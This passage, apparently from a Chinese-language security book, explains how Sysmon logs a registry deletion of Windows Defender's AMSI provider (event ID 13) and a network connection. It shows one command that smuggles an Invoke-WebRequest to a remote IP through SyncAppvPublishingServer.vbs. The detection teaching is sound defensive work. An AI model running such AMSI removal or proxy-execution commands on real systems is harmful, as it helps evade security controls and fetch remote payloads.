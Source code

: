 ![图 2.14 – Sysmon 检测到注册表更改](img/B18964_02_14.jpg)

图 2.14 – Sysmon 检测到注册表更改

另一个 Sysmon 检测的好例子是通过注册表删除 AMSI 提供程序，这将在日志中创建事件 ID 13。所有提供程序都有其独特的键。例如，Windows Defender 有`HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}`。如果您检查已发布的配置文件，Sysmon 可以从检测的角度提供更多信息。

另一个 Sysmon 的好例子是网络连接检测。让我们尝试运行类似以下命令的内容：

```
SyncAppvPublishingServer.vbs "br; iwr http://192.168.13.152:443/a"
```

Sysmon 会检测活动，但不会阻止连接：

